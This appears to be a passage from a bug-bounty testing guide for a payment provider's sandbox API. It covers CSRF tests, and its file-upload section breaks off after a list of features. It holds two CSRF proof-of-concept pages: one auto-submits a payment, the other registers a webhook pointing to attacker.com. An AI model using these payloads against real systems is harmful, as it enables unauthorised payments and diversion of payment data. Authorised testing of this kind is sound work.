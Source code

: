 
### 7. CSRF (Cross-Site Request Forgery) ⭐⭐⭐

**Priority:** MEDIUM (Test on critical actions only)

**Note:** Basic CSRF on non-sensitive endpoints is out of scope, but CSRF on payment/financial operations may be in scope.

**Test Critical Actions:**

```html
<!-- Test CSRF on payment creation -->
<html>
<body>
<form action="https://manage-sandbox.gocardless.com/api/payments" method="POST">
  <input type="hidden" name="amount" value="1000" />
  <input type="hidden" name="currency" value="GBP" />
  <input type="submit" value="Click me" />
</form>
<script>
  document.forms[0].submit();
</script>
</body>
</html>

<!-- Test CSRF on webhook creation -->
<html>
<body>
<form action="https://manage-sandbox.gocardless.com/api/webhooks" method="POST">
  <input type="hidden" name="url" value="https://attacker.com/webhook" />
  <input type="submit" value="Click me" />
</form>
</body>
</html>
```

**Testing Checklist:**
- [ ] CSRF token present?
- [ ] CSRF token validated?
- [ ] CSRF token tied to session?
- [ ] SameSite cookie attribute set?
- [ ] Referer header checked?

---

### 8. File Upload Vulnerabilities ⭐⭐⭐

**Priority:** MEDIUM-HIGH

**Test File Upload Features:**

```bash
# Identify upload features:
# - Logo upload
# - Customer CSV import
# - Document upload
# - Profile picture

# Tests:
```
